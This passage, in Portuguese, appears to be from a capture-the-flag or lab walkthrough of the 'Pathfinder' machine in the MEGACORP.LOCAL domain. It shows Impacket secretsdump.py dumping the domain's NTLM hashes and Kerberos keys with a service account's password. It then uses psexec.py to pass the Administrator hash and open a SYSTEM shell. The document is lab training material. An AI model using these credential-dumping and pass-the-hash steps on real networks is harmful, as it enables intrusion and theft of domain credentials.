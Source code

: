 ```
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30                                                                                                  126 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:7e2b4bffb0d54e17b7528cb122bae602:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:9e07592ae55cfd43c84e85a477854c8e3f40c70630ea24bebdeda66a15e77e18
PATHFINDER$:aes128-cts-hmac-sha1-96:4de068761918fa0005de10f361b49703
PATHFINDER$:des-cbc-md5:6d37cd7904b6f7f2
[*] Cleaning up... 
```

Com a hash do administrador, podemos utilizar a técnica de `Pass The Hash` (PTH), onde conseguimos nos autenticar no host não com a senha, mas com a hash do usuário. Para isso podemos utilizar o `psexec.py`.

```
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file vpCRwyDb.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service btXJ on 10.10.10.30.....
[*] Starting service btXJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
